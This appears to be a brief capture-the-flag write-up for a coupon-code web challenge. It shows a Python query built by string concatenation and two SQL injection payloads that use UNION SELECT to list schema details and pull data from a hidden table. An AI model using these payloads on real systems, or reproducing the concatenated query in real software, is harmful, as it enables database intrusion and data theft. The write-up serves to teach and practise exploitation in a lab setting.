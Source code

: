 ## SOLUTION 

You can see python code by accessing `/?source=1`

Vulnerable piece of code:
```python
mycursor.execute("SELECT * FROM coupons WHERE code = '" + str(form['cid']) + "'")
```

1. SQL: 
```sql
' UNION SELECT 1, table_name, column_name FROM information_schema.columns WHERE table_schema != 'mysql' AND table_schema != 'information_schema' AND ''='
```

2. SQL: 
```sql
' UNION SELECT 1,ZGVmaW5pdGVseS1ub3QtZmxhZw,2 FROM c2VjcmV0LWRi WHERE ''='
```
